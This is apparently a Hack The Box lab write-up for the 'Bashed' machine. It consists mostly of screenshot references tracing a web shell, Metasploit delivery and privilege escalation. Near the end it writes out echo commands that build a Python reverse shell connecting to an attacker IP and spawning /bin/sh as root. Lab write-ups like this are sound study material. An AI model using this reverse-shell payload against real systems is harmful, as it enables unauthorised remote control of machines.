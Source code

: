 ```yaml
---
layout: post
title: Bashed
meta: " "
category: htb
image: card1-img.png
date: 2020-10-22T03:39:02.540Z
tags: " "
---
```

# Bashed


![](initial-nmap.png)



![](nmap-follow-scan-all-http-scripts.png)


![](apache-2.4.18-on-ubuntu.png)



![](initial-look-at-website.png)



![](content-discovery.png)



![](dev-subdomain.png)



![](php-bash-shell.png)


![](enumeration.png)


![](create-shell.png)


![](host-shell.png)


![](host-shell.png)


![](web-delivery-metasploit.png)


![](upgrade-metasploit-meterpreter.png)

Enumerate

![](enumerate.png)


sudo -l

![](sudo-l.png)


![](tty-shell.png)


![](files-owned-by-scriptmanager.png)



![](file-run-by-root.png)


![](spawn-shell-as-scriptmanager.png)


```

echo 'import socket,subprocess,os' > test.py
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> test.py
echo 's.connect(("10.10.14.26",4432)) ' >> test.py
echo 'os.dup2(s.fileno(),0)' >> test.py
echo 'os.dup2(s.fileno(),1)' >> test.py
echo 'os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> test.py
```

![](overide-test-py.png)

![](got-root.png)